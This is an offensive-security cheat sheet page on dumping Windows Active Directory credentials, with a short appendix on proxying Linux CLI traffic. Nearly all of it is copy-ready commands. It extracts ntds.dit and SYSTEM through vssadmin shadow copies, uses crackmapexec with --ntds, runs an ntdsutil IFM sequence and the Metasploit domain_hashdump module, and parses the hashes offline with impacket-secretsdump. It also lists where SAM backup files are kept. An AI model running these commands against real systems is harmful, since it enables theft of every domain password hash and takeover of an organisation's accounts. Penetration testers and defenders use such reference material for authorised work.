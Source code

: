 ```yaml
---
description: other miscellaneous
---
```


# Others

## Dump NTDS

### NTDS file location 

`c:\windows\ntds\ntds.dit` 

Backup files if contain sam 

`Windows/system32/config/SAM` 

`/WINDOWS/repair/SAM` 

`regedit.exe HKEY_LOCAL_MACHINE -> SAM` 

### Manual NTDS.dit Extraction using vssadmin 

```text
vssadmin create shadow /for=C: 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\SYSTEM c:\SYSTEM 
```

### Dump NTDS.dit with Crackmapexec 

`crackmapexec smb <target>-u admin -p Password123 -d domain --ntds drsuapi` 

### ntdsutil 

```text
activate instance ntds 
ifm 
create full C:\ntdsutil 
quit 
quit 
```

Get files from:  

c:\ntdsutil\active directory 

### Metasploit 

`windows/gather/credentials/domain_hashdump` 

### Impacket 

`impacket-secretsdump -system /root/SYSTEM -ntds /root/ntds.dit LOCAL` 

## Intercept Linux CLI Traffic

{% embed url="https://frichetten.com/blog/intercept-linux-cli-tool-traffic" %}

```text
export http_proxy="http://192.168.122.1:8080" 
export https_proxy="http://192.168.122.1:8080" 
```

